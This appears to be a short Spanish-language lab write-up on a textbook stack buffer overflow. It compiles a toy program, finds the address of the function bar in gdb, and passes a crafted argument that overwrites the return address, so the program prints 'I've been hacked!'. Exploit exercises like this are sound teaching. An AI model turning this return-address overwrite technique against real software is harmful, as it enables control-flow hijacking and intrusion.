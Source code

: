 Vulnerabilidad que se explota realizando un buffer overflow, el objetivo es conseguir sobreescribir la dirección de retorno de la función para que llame al método bar.


* Compilación:
	* `$ gcc -m32 -o stackoverrun stackoverrun.c`


Una vez ejecutamos y hallamos la dirección donde se encuentra el método bar, en este caso la dirección 0x5555555551a5 se sobreescribe la dirección pasando por parámetro.

```
$ gcc -o stack stackoverrun.c
$ gdb stack
(gdb) r

Address of foo = 0x555555555155
Address of bar = 0x5555555551a5
Please supply a string as an argument!

(gdb) r $(printf "aaaaaaaaaabbbbbbbb\xa5\x51\x55\x55\x55\x55")

        ...
Augh! I've been hacked!
        ...

```
